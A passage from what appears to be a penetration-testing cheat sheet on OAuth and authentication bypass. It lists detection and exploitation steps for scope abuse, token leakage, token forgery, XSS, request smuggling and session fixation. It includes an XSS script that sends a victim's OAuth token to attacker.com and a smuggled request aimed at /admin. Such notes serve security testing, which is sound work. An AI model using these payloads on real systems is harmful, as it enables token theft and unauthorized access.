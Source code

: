     - **Improper scope validation**
      - Applications requesting excess permissions or users unaware of scope
      - Detection: Analyze requested scopes during OAuth flow
      - Exploitation: Trick users into granting excessive permissions
  
  - **OAuth token vulnerabilities**
    
    - **Token leakage**
      - Access tokens leaked via browser history, Referer headers, or logs
      - Detection: Check if tokens appear in URLs or are passed insecurely
      - Exploitation: Capture leaked tokens from logs or browser history
    
    - **Insufficient token validation**
      - Applications accepting tokens without proper validation
      - Detection: Modify tokens and observe if access persists
      - Exploitation: Forge or manipulate tokens to gain unauthorized access
    
    - **Cross-site scripting (XSS) in OAuth flow**
      - XSS vulnerabilities allowing token theft
      - Detection: Test for XSS in OAuth-related pages
      - Exploitation: Inject script to steal tokens:
        ```javascript
        <script>
        fetch('/api/user-data', {
          credentials: 'include'
        })
        .then(response => response.json())
        .then(data => {
          fetch('https://attacker.com/steal?token=' + data.oauth_token)
        });
        </script>
        ```

- **Advanced authentication bypass techniques**
  
  - **HTTP Request smuggling**
    - Using request smuggling to bypass authentication
    - Example:
      ```http
      POST / HTTP/1.1
      Host: vulnerable-website.com
      Content-Length: 54
      Transfer-Encoding: chunked

      0

      GET /admin HTTP/1.1
      X-Original-URL: /admin
      ```
  
  - **Authentication flow manipulation**
    
    - **Session fixation attacks**
      - Forcing a user to use an attacker-controlled session
      - Detection: Check if session identifiers persist before and after login
      - Exploitation: Set victim's session ID, wait for them to authenticate
    